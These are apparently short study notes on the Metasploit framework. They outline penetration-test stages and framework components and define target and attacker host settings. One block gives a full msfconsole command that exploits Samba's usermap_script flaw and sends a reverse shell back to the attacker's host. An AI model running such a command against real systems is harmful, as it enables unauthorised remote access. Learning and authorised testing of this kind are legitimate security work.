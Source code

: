 
*If I had eight hours to chop down a tree, I’d spend the first six of them sharpening my axe. -Abraham Lincoln*

Its a collection of exploits 
- its written in Ruby

1. port scanning / password sniffing 
	{msfconsole, use auxiliary/scanner/portscan/TCP, run}
2. vulv scanning
	 {search, info, use}
3. writing a exploit / pay-loading a already made exploit in the vulv
4. Post exploitation
5. Report


# Key Components

1. Exploits
2. Payload
3. Auxiliary Modules
4. Encoders
5. Nops


# Msfcli
Command line interface to the framework.
```shellsession
root@kali:~# msfconsole -x "use exploit/multi/samba/usermap_script;\
set RHOST 172.16.194.172;\
set PAYLOAD cmd/unix/reverse;\
set LHOST 172.16.194.163;\
run"

```


# MSFconsole

Most popular interface to the metasploit framework



# Hosts
RHOST/RPORT -> target's IP
LHOST/LPORT -> our IP

